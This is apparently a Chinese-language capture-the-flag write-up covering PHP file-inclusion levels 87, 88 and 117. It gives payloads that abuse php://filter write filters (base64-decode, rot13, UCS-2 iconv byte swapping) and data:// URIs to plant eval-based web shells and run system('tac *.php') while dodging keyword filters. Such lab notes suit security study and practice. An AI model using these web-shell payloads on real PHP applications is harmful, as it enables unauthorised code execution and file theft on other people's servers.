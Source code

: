 #### 87关-php://filter/write&加密编码

1、利用base64:
```

	url编码2次：php://filter/write=convert.base64-decode/resource=123.php

	content=aaPD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==
	把content的内容进行base64解码，在放入123.php文件
```

2、利用凯撒13：

```
	url编码2次：php://filter/write=string.rot13/resource=2.php

	content=<?cuc riny($_CBFG[1]);?>
	把content的内容进行凯撒13解码，在放入123.php文件
```

#### 88关-data&base64协议

过滤PHP，各种符号（+，=等等），php代码编码写出无符号base64值

```
	Payload：file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgKi5waHAnKTtlY2hvIDEyMzs/PmFk
```

#### 117关-php://filter/write&新的算法

convert.iconv.：一种过滤器，和使用iconv()函数处理流数据有等同作用



```
<?php
$result = iconv("UCS-2LE","UCS-2BE", '<?php eval(POST[a]);?>');

echo "经过一次反转:".$result."\n";

echo "经过第二次反转:".iconv("UCS-2LE","UCS-2BE", $result);

?>

Payload：file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php

contents=?<hp pvela$(P_SO[T]a;)>?
```